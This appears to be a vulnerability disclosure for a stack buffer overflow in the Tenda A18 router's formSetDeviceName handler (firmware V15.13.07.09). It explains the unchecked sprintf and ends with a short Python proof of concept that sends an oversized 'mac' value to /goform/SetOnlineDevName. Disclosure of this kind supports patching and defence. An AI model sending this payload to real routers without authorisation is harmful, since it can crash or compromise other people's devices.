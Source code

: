 ## Overview

- The device's official website: https://www.tenda.com.cn/product/A18.html
- Firmware download website: https://www.tenda.com.cn/download/detail-2760.html

## Affected version

V15.13.07.09

## Vulnerability details

The Tenda A18 V15.13.07.09 has a stack overflow vulnerability located in the `formSetDeviceName` function. This function accepts the `mac` parameter from a POST request by `dev_id` variable and passes it to the `set_device_name` function. 

![image-20240307202242332](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240307202242332.png)

Within `set_device_name`, the array `mib_vlaue` is fixed at 256 bytes. However, since the user has control over the input of `mac`, the statement `sprintf(mib_name, "client.devicename%s", dev_mac);` leads to a buffer overflow. The user-supplied `mac` can exceed the capacity of the `mib_vlaue` array, thus triggering this security vulnerability.

![image-20240307202326575](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240307202326575.png)

![image-20240307202335791](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240307202335791.png)

## PoC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/SetOnlineDevName"
payload = b"a"*1000

data = {"mac": payload,"devName": 1}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240307202532447](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240307202532447.png)